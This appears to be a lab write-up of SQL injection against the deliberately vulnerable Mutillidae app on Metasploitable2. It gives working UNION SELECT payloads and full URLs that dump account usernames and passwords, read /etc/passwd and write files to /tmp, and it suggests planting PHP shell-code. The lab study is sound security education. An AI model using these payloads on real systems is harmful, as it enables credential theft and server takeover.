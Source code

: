 The url once executed will  retrieve table names from the “owasp 10” database.
##Extracting sensitive data such as passwords 

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.


The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=sivaram%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 
![20](https://github.com/sivaram-R/sqlinjection/assets/121165794/8a7e97d9-6850-4e95-8fe0-fe1272a2a252)

![21](https://github.com/sivaram-R/sqlinjection/assets/121165794/1668fd47-44f9-4687-ad7f-c7c0808706ea)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=sivaram%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![22](https://github.com/sivaram-R/sqlinjection/assets/121165794/56fc761e-392e-4ffe-95cb-fad848e76727)

![23](https://github.com/sivaram-R/sqlinjection/assets/121165794/e6257257-1536-42c2-8ca3-fbc6b283e760)


## Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=sivaram%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details
![24](https://github.com/sivaram-R/sqlinjection/assets/121165794/eb4e7934-2521-4d82-8ab0-d68991a8fddd)
![25](https://github.com/sivaram-R/sqlinjection/assets/121165794/7666fcb7-711c-42a2-ade6-2c73fd728d40)
the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server.
Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).




## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.

